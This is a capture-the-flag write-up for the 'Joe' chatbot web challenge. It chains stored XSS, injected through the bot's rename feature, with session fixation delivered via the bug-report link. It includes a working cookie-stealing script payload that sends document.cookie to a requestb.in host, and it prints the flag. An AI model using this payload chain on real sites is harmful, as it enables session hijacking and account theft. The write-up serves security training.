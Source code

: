 # Joe ~ 90
Problem:
```
Meet our brand new personal assistant, Joe. He is the perfect talking partner if you want to have some small talk with a machine. We have put extra emphasis on security when developing Joe, but we'd like to invite you to participate in our H4x0r R3w4rd Pr06r4m (HRP) to help us make Joe even more secure. If you can find a vulnerability that makes it possible to steal the cookies of the administrator, we will reward you with a valuable flag.

Challenge running at https://joe.web.ctfcompetition.com/
```
![default](kapi-files/1.PNG)

After few look around we found that if we click on hyperlink then commands will prompt in our input.

>> what is your name
>> let me rename you
>> do you know any puns
>> what is the answer to the ultimate question
>> report bug

**let me rename you** this command will let us change Joe's name to what ever we want and it's possible to inject XSS into that name which we will change to. We use [https://requestb.in](https://requestb.in) to setup temporary server to catch requests which could be generated from anywhere.

We change Joe's name into the following XSS and reload the page.
```javascript
<script>alert(1);</script>
``` 
![XSS](kapi-files/4.PNG)
As we expected the site is vulnerable to XSS. Now it could be roughly plan an attack to steal admin cookie by sending XSS-link to admin but how it could be. 

After reviewing login function we found that the login function has weakness called **session fixation** which is the session will be same value whenever we login or not. So if we pass this link to admin and let he participate to the link we might be able to catch admin's cookie.

The following is example of my login.
```
https://joe.web.ctfcompetition.com/login?id_token=eyJhbGciOiJSUzI1--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------truncated-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------SHJaSYwNNA
```

Now we prepare the exploitation by:
* Change Joe's name to JavaScript which will send cookies to our requestb.
* Report bug by sending our login URL with our token
* Admin should login to our session and his cookies should be sent to our reqestb.

## Setup XSS
By changing Joe's name to
```javascript
<script>document.write('<img src="https://requestb.in/our_resquestb_url?' + document.cookie);</script>
```
## Report bug
by sending 
```
https://joe.web.ctfcompetition.com/login?id_token=eyJhbGciOiJSUzI1--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------truncated-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------SHJaSYwNNA
```

We found a problem when we try to report the bug with very long URL.
![errorreportlongurl](kapi-files/8.PNG)

So we shortend it using goo.gl

Submit the bug again.
![submitbug](kapi-files/10.PNG)

## Reap our flag
![flag](kapi-files/9.PNG)

The flag was:
* CTF{h1-j03-c4n-1-h4v3-4-c00k13-plz!?!}; 

